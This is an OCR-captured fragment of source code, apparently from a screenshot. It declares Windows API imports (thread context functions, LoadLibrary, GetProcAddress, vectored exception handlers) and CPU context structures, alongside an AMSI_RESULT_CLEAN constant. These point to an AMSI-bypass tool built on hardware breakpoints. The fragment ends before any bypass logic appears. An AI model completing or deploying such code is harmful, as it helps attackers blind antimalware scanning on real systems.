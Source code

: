 ```powershell
        public const Int32 AMSI_RESULT_CLEAN = 0;

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool SetThreadContext(IntPtr hThread, IntPtr lpContext);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool GetThreadContext(IntPtr hThread, IntPtr lpContext);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32", SetLastError = true, CharSet = CharSet.Ansi)]
        public static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)] string lpFileName);

        [DllImport("Kernel32.dll")]
        public static extern IntPtr AddVectoredExceptionHandler(uint First, IntPtr Handler);

        [Flags]
        public enum CONTEXT64_FLAGS : uint
        {
            CONTEXT64_AMD64 = 0x100000,
            CONTEXT64_CONTROL = CONTEXT64_AMD64 | 0x01,
            CONTEXT64_INTEGER = CONTEXT64_AMD64 | 0x02,
            CONTEXT64_SEGMENTS = CONTEXT64_AMD64 | 0x04,
            CONTEXT64_FLOATING_POINT = CONTEXT64_AMD64 | 0x08,
            CONTEXT64_DEBUG_REGISTERS = CONTEXT64_AMD64 | 0x10,
            CONTEXT64_FULL = CONTEXT64_CONTROL | CONTEXT64_INTEGER | CONTEXT64_FLOATING_POINT,
            CONTEXT64_ALL = CONTEXT64_CONTROL | CONTEXT64_INTEGER | CONTEXT64_SEGMENTS | CONTEXT64_FLOATING_POINT | CONTEXT64_DEBUG_REGISTERS
        }

        [StructLayout(LayoutKind.Sequential)]
        public struct M128A
        {
            public ulong High;
            public long Low;

            public override string ToString()
            {
                return string.Format("High:{0}, Low:{1}", this.High, this.Low);
            }
        }

        [StructLayout(LayoutKind.Sequential, Pack = 16)]
        public struct XSAVE_FORMAT64
        {
            public ushort ControlWord;
            public ushort StatusWord;
            public byte TagWord;
            public byte Reserved1;
            public ushort ErrorOpcode;
            public uint ErrorOffset;
            public ushort ErrorSelector;
            public ushort Reserved2;
            public uint DataOffset;
            public ushort DataSelector;
            public ushort Reserved3;
            public uint MxCsr;
            public uint MxCsr_Mask;

            [MarshalAs(UnmanagedType.ByValArray, SizeConst = 8)]
            public M128A[] FloatRegisters;
```